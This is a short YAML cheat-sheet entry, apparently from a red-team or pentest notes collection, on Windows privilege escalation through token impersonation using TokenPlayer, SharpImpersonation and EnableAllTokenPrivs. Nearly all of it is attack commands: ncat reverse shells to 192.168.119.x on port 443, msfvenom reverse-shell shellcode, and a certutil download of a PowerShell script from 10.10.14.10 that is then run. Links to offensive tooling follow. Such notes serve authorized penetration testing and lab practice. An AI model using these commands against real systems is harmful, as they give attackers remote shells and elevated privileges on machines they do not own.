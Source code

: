 ```yaml
---
functions:
  privilege-escalation:
    - description: TokenPlayer - Impersonate another user and spawn processes with those user tokens
      code: |
        # reverse shell
        ./TokenPlayer-v0.8.exe --pid 2156 --exec --prog C:\\Windows\\System32\\cmd.exe --args "/c C:\Windows\temp\ncat.exe 192.168.119.135 443 -e cmd.exe"

    - description: SharpImpersonation - Impersonate another user and spawn processes with those user tokens
      code: |
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.127 LPORT=443 -f base64
        SharpImpersonation.exe user:<user> shellcode:<base64shellcode>

        SharpImpersonation.exe user:<user> binary:<binary-Path>
        SharpImpersonation.exe user:xor\david binary:"ncat.exe 192.168.119.127 443 -e cmd.exe"

    - description: Enable Privileges to Manipulate Tokens - Impersonate another user and spawn processes with those user tokens
      code: |
        certutil.exe -urlcache -f http://10.10.14.10/EnablePrivs.ps1 EnablePrivs.ps1
        powershell -c ./EnablePrivs.ps1 SeAssignPrimaryTokenPrivilege
        https://github.com/fashionproof/EnableAllTokenPrivs

resources : |
  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges
  https://github.com/unkn0wnsyst3m/scripts/blob/master/TokenPlayerx64.exe
  https://github.com/unkn0wnsyst3m/scripts/blob/master/TokenPlayerx86.exe
  https://github.com/S1ckB0y1337/TokenPlayer
  https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation
  https://github.com/S3cur3Th1sSh1t/SharpImpersonation
  https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation
  https://github.com/fashionproof/EnableAllTokenPrivs
---
```


